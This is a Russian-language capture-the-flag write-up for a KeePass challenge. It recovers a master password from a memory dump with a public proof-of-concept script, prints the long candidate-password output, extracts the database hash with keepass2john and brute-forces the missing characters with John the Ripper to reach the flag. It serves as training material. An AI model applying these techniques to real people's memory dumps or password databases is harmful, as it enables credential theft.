

# KeePass

## Описание
> Как же это произошло? Мои пароли все украли... <br><br>Но я же пользовался самой безопасной программой. Они еще и скинули мне то, каким образом они все провернули... <br><br>Сможешь мне помочь узнать как они это сделали?<br><br><a href="keepass.zip" download>keepass.zip</a>

Автор: [cornael](https://t.me/cornael), [pigadoor](https://t.me/pigadoor)

## Анализ файлов
У нас приложены два файла. Один из них имеет расширение kbdx и является базой данных из приложения KeePass. Второй файл является дампом памяти. Попробуем найти что с этим дампом можно сделать.

По запросу keepass-dump находим два скрипта, которые вытягивают мастер-пароль из дампа памяти:

[скрипт на dotnet](https://github.com/vdohney/keepass-password-dumper)

[скрипт на python](https://github.com/CMEPW/keepass-dump-masterkey)

Воспользуемся скриптом на python:
```bash
❯ python3 poc.py KeePass.DMP 
2023-10-26 07:01:12,191 [.] [main] Opened KeePass.DMP
Possible password: ●6SirPigadiorSaisThatIsAStrongPasdword
Possible password: ●6SirPigadiorSaisThatIsAStrongPassword
Possible password: ●6SirPigadiorSaisThasIsAStrongPasdword
Possible password: ●6SirPigadiorSaisThasIsAStrongPassword
Possible password: ●6SirPigadiorSaisThitIsAStrongPasdword
Possible password: ●6SirPigadiorSaisThitIsAStrongPassword
Possible password: ●6SirPigadiorSaisThisIsAStrongPasdword
Possible password: ●6SirPigadiorSaisThisIsAStrongPassword
Possible password: ●6SirPigadiorSaysThatIsAStrongPasdword
Possible password: ●6SirPigadiorSaysThatIsAStrongPassword
Possible password: ●6SirPigadiorSaysThasIsAStrongPasdword
Possible password: ●6SirPigadiorSaysThasIsAStrongPassword
Possible password: ●6SirPigadiorSaysThitIsAStrongPasdword
Possible password: ●6SirPigadiorSaysThitIsAStrongPassword
Possible password: ●6SirPigadiorSaysThisIsAStrongPasdword
Possible password: ●6SirPigadiorSaysThisIsAStrongPassword
Possible password: ●6SirPigadoorSaisThatIsAStrongPasdword
Possible password: ●6SirPigadoorSaisThatIsAStrongPassword
Possible password: ●6SirPigadoorSaisThasIsAStrongPasdword
Possible password: ●6SirPigadoorSaisThasIsAStrongPassword
Possible password: ●6SirPigadoorSaisThitIsAStrongPasdword
Possible password: ●6SirPigadoorSaisThitIsAStrongPassword
Possible password: ●6SirPigadoorSaisThisIsAStrongPasdword
Possible password: ●6SirPigadoorSaisThisIsAStrongPassword
Possible password: ●6SirPigadoorSaysThatIsAStrongPasdword
Possible password: ●6SirPigadoorSaysThatIsAStrongPassword
Possible password: ●6SirPigadoorSaysThasIsAStrongPasdword
Possible password: ●6SirPigadoorSaysThasIsAStrongPassword
Possible password: ●6SirPigadoorSaysThitIsAStrongPasdword
Possible password: ●6SirPigadoorSaysThitIsAStrongPassword
Possible password: ●6SirPigadoorSaysThisIsAStrongPasdword
Possible password: ●6SirPigadoorSaysThisIsAStrongPassword
Possible password: ●3SirPigadiorSaisThatIsAStrongPasdword
Possible password: ●3SirPigadiorSaisThatIsAStrongPassword
Possible password: ●3SirPigadiorSaisThasIsAStrongPasdword
Possible password: ●3SirPigadiorSaisThasIsAStrongPassword
Possible password: ●3SirPigadiorSaisThitIsAStrongPasdword
Possible password: ●3SirPigadiorSaisThitIsAStrongPassword
Possible password: ●3SirPigadiorSaisThisIsAStrongPasdword
Possible password: ●3SirPigadiorSaisThisIsAStrongPassword
Possible password: ●3SirPigadiorSaysThatIsAStrongPasdword
Possible password: ●3SirPigadiorSaysThatIsAStrongPassword
Possible password: ●3SirPigadiorSaysThasIsAStrongPasdword
Possible password: ●3SirPigadiorSaysThasIsAStrongPassword
Possible password: ●3SirPigadiorSaysThitIsAStrongPasdword
Possible password: ●3SirPigadiorSaysThitIsAStrongPassword
Possible password: ●3SirPigadiorSaysThisIsAStrongPasdword
Possible password: ●3SirPigadiorSaysThisIsAStrongPassword
Possible password: ●3SirPigadoorSaisThatIsAStrongPasdword
Possible password: ●3SirPigadoorSaisThatIsAStrongPassword
Possible password: ●3SirPigadoorSaisThasIsAStrongPasdword
Possible password: ●3SirPigadoorSaisThasIsAStrongPassword
Possible password: ●3SirPigadoorSaisThitIsAStrongPasdword
Possible password: ●3SirPigadoorSaisThitIsAStrongPassword
Possible password: ●3SirPigadoorSaisThisIsAStrongPasdword
Possible password: ●3SirPigadoorSaisThisIsAStrongPassword
Possible password: ●3SirPigadoorSaysThatIsAStrongPasdword
Possible password: ●3SirPigadoorSaysThatIsAStrongPassword
Possible password: ●3SirPigadoorSaysThasIsAStrongPasdword
Possible password: ●3SirPigadoorSaysThasIsAStrongPassword
Possible password: ●3SirPigadoorSaysThitIsAStrongPasdword
Possible password: ●3SirPigadoorSaysThitIsAStrongPassword
Possible password: ●3SirPigadoorSaysThisIsAStrongPasdword
Possible password: ●3SirPigadoorSaysThisIsAStrongPassword
Possible password: ●ASirPigadiorSaisThatIsAStrongPasdword
Possible password: ●ASirPigadiorSaisThatIsAStrongPassword
Possible password: ●ASirPigadiorSaisThasIsAStrongPasdword
Possible password: ●ASirPigadiorSaisThasIsAStrongPassword
Possible password: ●ASirPigadiorSaisThitIsAStrongPasdword
Possible password: ●ASirPigadiorSaisThitIsAStrongPassword
Possible password: ●ASirPigadiorSaisThisIsAStrongPasdword
Possible password: ●ASirPigadiorSaisThisIsAStrongPassword
Possible password: ●ASirPigadiorSaysThatIsAStrongPasdword
Possible password: ●ASirPigadiorSaysThatIsAStrongPassword
Possible password: ●ASirPigadiorSaysThasIsAStrongPasdword
Possible password: ●ASirPigadiorSaysThasIsAStrongPassword
Possible password: ●ASirPigadiorSaysThitIsAStrongPasdword
Possible password: ●ASirPigadiorSaysThitIsAStrongPassword
Possible password: ●ASirPigadiorSaysThisIsAStrongPasdword
Possible password: ●ASirPigadiorSaysThisIsAStrongPassword
Possible password: ●ASirPigadoorSaisThatIsAStrongPasdword
Possible password: ●ASirPigadoorSaisThatIsAStrongPassword
Possible password: ●ASirPigadoorSaisThasIsAStrongPasdword
Possible password: ●ASirPigadoorSaisThasIsAStrongPassword
Possible password: ●ASirPigadoorSaisThitIsAStrongPasdword
Possible password: ●ASirPigadoorSaisThitIsAStrongPassword
Possible password: ●ASirPigadoorSaisThisIsAStrongPasdword
Possible password: ●ASirPigadoorSaisThisIsAStrongPassword
Possible password: ●ASirPigadoorSaysThatIsAStrongPasdword
Possible password: ●ASirPigadoorSaysThatIsAStrongPassword
Possible password: ●ASirPigadoorSaysThasIsAStrongPasdword
Possible password: ●ASirPigadoorSaysThasIsAStrongPassword
Possible password: ●ASirPigadoorSaysThitIsAStrongPasdword
Possible password: ●ASirPigadoorSaysThitIsAStrongPassword
Possible password: ●ASirPigadoorSaysThisIsAStrongPasdword
Possible password: ●ASirPigadoorSaysThisIsAStrongPassword
Possible password: ●ESirPigadiorSaisThatIsAStrongPasdword
Possible password: ●ESirPigadiorSaisThatIsAStrongPassword
Possible password: ●ESirPigadiorSaisThasIsAStrongPasdword
Possible password: ●ESirPigadiorSaisThasIsAStrongPassword
Possible password: ●ESirPigadiorSaisThitIsAStrongPasdword
Possible password: ●ESirPigadiorSaisThitIsAStrongPassword
Possible password: ●ESirPigadiorSaisThisIsAStrongPasdword
Possible password: ●ESirPigadiorSaisThisIsAStrongPassword
Possible password: ●ESirPigadiorSaysThatIsAStrongPasdword
Possible password: ●ESirPigadiorSaysThatIsAStrongPassword
Possible password: ●ESirPigadiorSaysThasIsAStrongPasdword
Possible password: ●ESirPigadiorSaysThasIsAStrongPassword
Possible password: ●ESirPigadiorSaysThitIsAStrongPasdword
Possible password: ●ESirPigadiorSaysThitIsAStrongPassword
Possible password: ●ESirPigadiorSaysThisIsAStrongPasdword
Possible password: ●ESirPigadiorSaysThisIsAStrongPassword
Possible password: ●ESirPigadoorSaisThatIsAStrongPasdword
Possible password: ●ESirPigadoorSaisThatIsAStrongPassword
Possible password: ●ESirPigadoorSaisThasIsAStrongPasdword
Possible password: ●ESirPigadoorSaisThasIsAStrongPassword
Possible password: ●ESirPigadoorSaisThitIsAStrongPasdword
Possible password: ●ESirPigadoorSaisThitIsAStrongPassword
Possible password: ●ESirPigadoorSaisThisIsAStrongPasdword
Possible password: ●ESirPigadoorSaisThisIsAStrongPassword
Possible password: ●ESirPigadoorSaysThatIsAStrongPasdword
Possible password: ●ESirPigadoorSaysThatIsAStrongPassword
Possible password: ●ESirPigadoorSaysThasIsAStrongPasdword
Possible password: ●ESirPigadoorSaysThasIsAStrongPassword
Possible password: ●ESirPigadoorSaysThitIsAStrongPasdword
Possible password: ●ESirPigadoorSaysThitIsAStrongPassword
Possible password: ●ESirPigadoorSaysThisIsAStrongPasdword
Possible password: ●ESirPigadoorSaysThisIsAStrongPassword
Possible password: ●NSirPigadiorSaisThatIsAStrongPasdword
Possible password: ●NSirPigadiorSaisThatIsAStrongPassword
Possible password: ●NSirPigadiorSaisThasIsAStrongPasdword
Possible password: ●NSirPigadiorSaisThasIsAStrongPassword
Possible password: ●NSirPigadiorSaisThitIsAStrongPasdword
Possible password: ●NSirPigadiorSaisThitIsAStrongPassword
Possible password: ●NSirPigadiorSaisThisIsAStrongPasdword
Possible password: ●NSirPigadiorSaisThisIsAStrongPassword
Possible password: ●NSirPigadiorSaysThatIsAStrongPasdword
Possible password: ●NSirPigadiorSaysThatIsAStrongPassword
Possible password: ●NSirPigadiorSaysThasIsAStrongPasdword
Possible password: ●NSirPigadiorSaysThasIsAStrongPassword
Possible password: ●NSirPigadiorSaysThitIsAStrongPasdword
Possible password: ●NSirPigadiorSaysThitIsAStrongPassword
Possible password: ●NSirPigadiorSaysThisIsAStrongPasdword
Possible password: ●NSirPigadiorSaysThisIsAStrongPassword
Possible password: ●NSirPigadoorSaisThatIsAStrongPasdword
Possible password: ●NSirPigadoorSaisThatIsAStrongPassword
Possible password: ●NSirPigadoorSaisThasIsAStrongPasdword
Possible password: ●NSirPigadoorSaisThasIsAStrongPassword
Possible password: ●NSirPigadoorSaisThitIsAStrongPasdword
Possible password: ●NSirPigadoorSaisThitIsAStrongPassword
Possible password: ●NSirPigadoorSaisThisIsAStrongPasdword
Possible password: ●NSirPigadoorSaisThisIsAStrongPassword
Possible password: ●NSirPigadoorSaysThatIsAStrongPasdword
Possible password: ●NSirPigadoorSaysThatIsAStrongPassword
Possible password: ●NSirPigadoorSaysThasIsAStrongPasdword
Possible password: ●NSirPigadoorSaysThasIsAStrongPassword
Possible password: ●NSirPigadoorSaysThitIsAStrongPasdword
Possible password: ●NSirPigadoorSaysThitIsAStrongPassword
Possible password: ●NSirPigadoorSaysThisIsAStrongPasdword
Possible password: ●NSirPigadoorSaysThisIsAStrongPassword
Possible password: ●5SirPigadiorSaisThatIsAStrongPasdword
Possible password: ●5SirPigadiorSaisThatIsAStrongPassword
Possible password: ●5SirPigadiorSaisThasIsAStrongPasdword
Possible password: ●5SirPigadiorSaisThasIsAStrongPassword
Possible password: ●5SirPigadiorSaisThitIsAStrongPasdword
Possible password: ●5SirPigadiorSaisThitIsAStrongPassword
Possible password: ●5SirPigadiorSaisThisIsAStrongPasdword
Possible password: ●5SirPigadiorSaisThisIsAStrongPassword
Possible password: ●5SirPigadiorSaysThatIsAStrongPasdword
Possible password: ●5SirPigadiorSaysThatIsAStrongPassword
Possible password: ●5SirPigadiorSaysThasIsAStrongPasdword
Possible password: ●5SirPigadiorSaysThasIsAStrongPassword
Possible password: ●5SirPigadiorSaysThitIsAStrongPasdword
Possible password: ●5SirPigadiorSaysThitIsAStrongPassword
Possible password: ●5SirPigadiorSaysThisIsAStrongPasdword
Possible password: ●5SirPigadiorSaysThisIsAStrongPassword
Possible password: ●5SirPigadoorSaisThatIsAStrongPasdword
Possible password: ●5SirPigadoorSaisThatIsAStrongPassword
Possible password: ●5SirPigadoorSaisThasIsAStrongPasdword
Possible password: ●5SirPigadoorSaisThasIsAStrongPassword
Possible password: ●5SirPigadoorSaisThitIsAStrongPasdword
Possible password: ●5SirPigadoorSaisThitIsAStrongPassword
Possible password: ●5SirPigadoorSaisThisIsAStrongPasdword
Possible password: ●5SirPigadoorSaisThisIsAStrongPassword
Possible password: ●5SirPigadoorSaysThatIsAStrongPasdword
Possible password: ●5SirPigadoorSaysThatIsAStrongPassword
Possible password: ●5SirPigadoorSaysThasIsAStrongPasdword
Possible password: ●5SirPigadoorSaysThasIsAStrongPassword
Possible password: ●5SirPigadoorSaysThitIsAStrongPasdword
Possible password: ●5SirPigadoorSaysThitIsAStrongPassword
Possible password: ●5SirPigadoorSaysThisIsAStrongPasdword
Possible password: ●5SirPigadoorSaysThisIsAStrongPassword
Possible password: ●*SirPigadiorSaisThatIsAStrongPasdword
Possible password: ●*SirPigadiorSaisThatIsAStrongPassword
Possible password: ●*SirPigadiorSaisThasIsAStrongPasdword
Possible password: ●*SirPigadiorSaisThasIsAStrongPassword
Possible password: ●*SirPigadiorSaisThitIsAStrongPasdword
Possible password: ●*SirPigadiorSaisThitIsAStrongPassword
Possible password: ●*SirPigadiorSaisThisIsAStrongPasdword
Possible password: ●*SirPigadiorSaisThisIsAStrongPassword
Possible password: ●*SirPigadiorSaysThatIsAStrongPasdword
Possible password: ●*SirPigadiorSaysThatIsAStrongPassword
Possible password: ●*SirPigadiorSaysThasIsAStrongPasdword
Possible password: ●*SirPigadiorSaysThasIsAStrongPassword
Possible password: ●*SirPigadiorSaysThitIsAStrongPasdword
Possible password: ●*SirPigadiorSaysThitIsAStrongPassword
Possible password: ●*SirPigadiorSaysThisIsAStrongPasdword
Possible password: ●*SirPigadiorSaysThisIsAStrongPassword
Possible password: ●*SirPigadoorSaisThatIsAStrongPasdword
Possible password: ●*SirPigadoorSaisThatIsAStrongPassword
Possible password: ●*SirPigadoorSaisThasIsAStrongPasdword
Possible password: ●*SirPigadoorSaisThasIsAStrongPassword
Possible password: ●*SirPigadoorSaisThitIsAStrongPasdword
Possible password: ●*SirPigadoorSaisThitIsAStrongPassword
Possible password: ●*SirPigadoorSaisThisIsAStrongPasdword
Possible password: ●*SirPigadoorSaisThisIsAStrongPassword
Possible password: ●*SirPigadoorSaysThatIsAStrongPasdword
Possible password: ●*SirPigadoorSaysThatIsAStrongPassword
Possible password: ●*SirPigadoorSaysThasIsAStrongPasdword
Possible password: ●*SirPigadoorSaysThasIsAStrongPassword
Possible password: ●*SirPigadoorSaysThitIsAStrongPasdword
Possible password: ●*SirPigadoorSaysThitIsAStrongPassword
Possible password: ●*SirPigadoorSaysThisIsAStrongPasdword
Possible password: ●*SirPigadoorSaysThisIsAStrongPassword
Possible password: ●)SirPigadiorSaisThatIsAStrongPasdword
Possible password: ●)SirPigadiorSaisThatIsAStrongPassword
Possible password: ●)SirPigadiorSaisThasIsAStrongPasdword
Possible password: ●)SirPigadiorSaisThasIsAStrongPassword
Possible password: ●)SirPigadiorSaisThitIsAStrongPasdword
Possible password: ●)SirPigadiorSaisThitIsAStrongPassword
Possible password: ●)SirPigadiorSaisThisIsAStrongPasdword
Possible password: ●)SirPigadiorSaisThisIsAStrongPassword
Possible password: ●)SirPigadiorSaysThatIsAStrongPasdword
Possible password: ●)SirPigadiorSaysThatIsAStrongPassword
Possible password: ●)SirPigadiorSaysThasIsAStrongPasdword
Possible password: ●)SirPigadiorSaysThasIsAStrongPassword
Possible password: ●)SirPigadiorSaysThitIsAStrongPasdword
Possible password: ●)SirPigadiorSaysThitIsAStrongPassword
Possible password: ●)SirPigadiorSaysThisIsAStrongPasdword
Possible password: ●)SirPigadiorSaysThisIsAStrongPassword
Possible password: ●)SirPigadoorSaisThatIsAStrongPasdword
Possible password: ●)SirPigadoorSaisThatIsAStrongPassword
Possible password: ●)SirPigadoorSaisThasIsAStrongPasdword
Possible password: ●)SirPigadoorSaisThasIsAStrongPassword
Possible password: ●)SirPigadoorSaisThitIsAStrongPasdword
Possible password: ●)SirPigadoorSaisThitIsAStrongPassword
Possible password: ●)SirPigadoorSaisThisIsAStrongPasdword
Possible password: ●)SirPigadoorSaisThisIsAStrongPassword
Possible password: ●)SirPigadoorSaysThatIsAStrongPasdword
Possible password: ●)SirPigadoorSaysThatIsAStrongPassword
Possible password: ●)SirPigadoorSaysThasIsAStrongPasdword
Possible password: ●)SirPigadoorSaysThasIsAStrongPassword
Possible password: ●)SirPigadoorSaysThitIsAStrongPasdword
Possible password: ●)SirPigadoorSaysThitIsAStrongPassword
Possible password: ●)SirPigadoorSaysThisIsAStrongPasdword
Possible password: ●)SirPigadoorSaysThisIsAStrongPassword
```

Здесь мы видим что программа достала все возможные пароли из дампа памяти, и из-за того что пароль вводился с ошибками и исправлялся, у нас вышло очень много вариантов. Попробуем их проанализировать. Среди всех этих паролей, самый правильный и написанный без ошибок: ●[ 6, 3, A, E, N, 5, *, ) ]SirPigadoorSaysThisIsAStrongPassword.

Как мы можем заметить, первые два символа наша программа не смогла достать из дампа памяти, и нам придется их сбрутить.

Воспользуемся программой John the Ripper. Для начала нам надо получить хэш базы данных:

```bash
❯ keepass2john surctf.kdbx | grep -o "$keepass$.*" > surctf.hash
```

Вывод команды:

```bash
$keepass$*2*60000*0*cb929a205259e6e50936ef8a01aca5108c90942df788c693ceea6e05955cef49*dc5dccf09c407f5cb6b412a540fe6105eba77f15d0818cd3d4358f44d6a603d1*edb1f05e31a71e0ec961a91f7678daa4*78a209c47b5737b193464974df26b0c17959cca7bedd812865cbd47b11ef42a6*dba96af86e2626a479984a493482989ba5cc35c62af68090145e193aa45d71cd
```

Теперь применив маску на то что нам нужно сбрутить первые два символа и они могут быть любыми, сбрутим весь пароль:

```bash
$john --mask=?a?aSirPigadoorSaysThisIsAStrongPassword surctf.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
y3SirPigadoorSaysThisIsAStrongPassword (?)
1g 0:00:00:03 DONE (2023-10-26 07:49) 0.3333g/s 426.6p/s 426.6c/s 426.6C/s 33SirPigadoorSaysThisIsAStrongPassword..M3SirPigadoorSaysThisIsAStrongPassword
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Пароль получен: `y3SirPigadoorSaysThisIsAStrongPassword`

Попробуем теперь войти в базу данных `surctf.kbdx`, используя данный пароль.

Видим что есть запись флаг и у нее пароль `surctf_wHy_u_us3_o1d_Ke3p4ss`.



Отлично, флаг получен.

`flag: surctf_wHy_u_us3_o1d_Ke3p4ss`
